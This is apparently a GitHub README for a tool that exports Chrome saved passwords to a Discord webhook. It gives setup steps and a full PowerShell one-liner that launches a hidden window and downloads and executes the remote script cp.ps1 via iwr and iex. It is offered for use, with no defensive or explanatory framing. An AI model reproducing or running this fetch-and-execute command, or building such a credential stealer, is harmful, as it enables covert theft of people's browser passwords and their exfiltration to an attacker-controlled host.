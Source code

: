 Simple Script to Export Chrome Passwords to Discord Webhook

To Use for Yourself, Fork Repo, edit cp.ps1 file to have your webhook URL, and edit command to include your cp.ps1 raw URL

Example CMD to Run:

`powershell -Command "Start-Process powershell -ArgumentList '-Command & {iwr -Uri \"https://raw.githubusercontent.com/ishan211/Chrome-Discord-WH/main/cp.ps1\" -UseBasicParsing | iex}' -WindowStyle Hidden"`

